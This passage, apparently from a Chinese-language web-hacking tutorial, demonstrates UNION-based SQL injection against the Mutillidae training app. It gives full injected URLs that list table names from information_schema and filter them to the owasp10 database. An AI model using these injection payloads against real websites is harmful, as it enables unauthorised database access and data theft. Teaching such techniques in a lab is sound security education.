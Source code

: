 URL 命令更改如下：

```
index.php?page=user-info.php&username=zaid' union select 1,table_name,null,null,5 from information_schema.tables%23&password=123456&user-info-php-submit-button=View+Account+Details
```

执行命令以查看我们是否能够获取`owasp10`数据库中所有现有的表格。我们可以看到我们得到了 237 条记录；以下是我们可以访问的所有表格：

![](img/c8960776-f376-4ae1-9d76-7ba8ec3b9ff1.png)

我们以`root`身份登录，因此我们可以看到其他 Web 应用程序的表格，例如 tikiwiki，但在现实场景中，我们通常只能看到与当前数据库（即 Mutillidae）相关的表格。

现在我们要使用`where`子句并且说`where table_schema = 'owasp10'`。我们在执行命令时得到了`owasp10`数据库，所以我们得到了`owasp10`，这是 Mutillidae 正在使用的当前数据库。我们使用相同的语句：我们从`information_schema`表中选择`table_name`，其中`table_schema`为`owasp10`。命令如下：

```
union select 1,table_name,null,null,5 from information_schema where table_schema = 'owasp10'
```

URL 命令更改如下：

```
index.php?page=user-info.php&username=zaid' union select 1,table_name,null,null,5 from information_schema where table_schema='owasp10'%23&password=123456&user-info-php-submit-button=View+Account+Details
```

执行它后，如下截图所示，我们只看到了我们感兴趣的表：
